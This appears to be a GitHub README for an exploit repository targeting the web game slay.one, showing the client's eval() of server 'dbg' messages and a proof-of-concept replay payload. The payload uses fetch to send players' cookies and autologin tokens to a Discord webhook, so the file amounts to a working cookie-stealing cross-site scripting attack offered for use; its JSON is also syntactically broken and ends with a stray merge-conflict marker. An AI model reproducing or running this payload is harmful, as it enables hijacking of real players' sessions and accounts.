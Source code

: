 # dbg-expliot

### Introduction 
Slay.one is a top down pixel shooter on the web. Howeever, like many web apppilcations it can be vulerible to cross-site sripting attacks.

### PoC 
Within the slay.one client-bundle.js, the section of code that handles websocket messages from the server there is a few lines of code that put the user in jepordy. 

```javascript
else if ("dbg" === arr[0]) // dbg packet send from the server 
    try {
        eval(msg.substring(4)) // eval() can be used to execute code 
    } catch (e) {}
```

This can be explioted with slay.one's replay feature where users can download replays of thier games. However, replay's can be editted to execute malicous code on the brower.

As a proof of concept the replay.json file in the repo if viewed on slay.one will steal your cookies and send it to a discord webhook 

```json
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}{
    method: 
        'POST',headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({content: 'Stolen Cookies: ' 
    + document.cookie + 'Login' + localStorage.autologin})
});
```
>>>>>>> 1cf9abc (inital commit: draft cve made, payload created)
